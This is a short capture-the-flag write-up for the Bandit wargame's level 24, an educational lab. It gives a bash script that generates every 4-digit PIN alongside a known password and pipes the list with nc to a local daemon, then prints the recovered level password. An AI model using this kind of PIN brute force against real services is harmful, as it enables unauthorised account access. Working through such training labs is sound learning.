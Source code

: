 # Bandit Level 24

In this challenge we are being introduced to the fun that is brute forcing

We are given the challenge to send a daemon listning on port 30002 our password and a secret 4 digit pincode

To do this the most efficient way is to write a shell script to create all of the possible passwords

Here is one i came up with:
```sh
#!/bin/bash
password=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ


for i in {0000..9999}
    do
        echo $password $i >> list.txt
    done
```

we can now use the command:
> `cat list.txt | nc localhost 30002`

And after this churns its way through passwords it find the password is: `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`
